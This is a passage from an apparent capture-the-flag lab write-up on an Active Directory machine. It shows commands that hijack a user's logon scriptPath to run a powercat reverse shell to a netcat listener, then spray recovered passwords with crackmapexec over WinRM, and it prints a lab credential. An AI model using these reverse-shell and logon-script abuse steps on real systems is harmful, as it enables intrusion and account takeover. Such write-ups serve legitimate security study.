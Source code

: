 We will use powercat and nc. Powercat will be the scipt that will be executed when maria user will be logon and in the end of this script we will set a call to our netcat so we get reverse shell with maria user:

```
git clone https://github.com/samratashok/ADModule
echo 'powercat -c 127.0.0.1 -p 3233 -e cmd' >> powercat.ps1
```

```
Set-DomainObject -Identity maria -SET @{scriptPath="C:\\Windows\\System32\\spool\\drivers\\color\\powercat.ps1"}
```

```
.\nc.exe -lnvp 3233
```

### Phase 4: Privilege Escalation

We got a shell as maria and in Desktop folder we can find Engines.xls file with some password inside. Now create password list and use cme:

![evil_result](images/Object12.png)

```
d34gb8@
0de_434_d545
W3llcr4ft3d_4cls
```

```bash
cme winrm 10.129.176.11 -u maria -p W3llcr4ft3d_4cls
```

![cme_result](images/Object13.png)

```
maria:W3llcr4ft3d_4cls
```

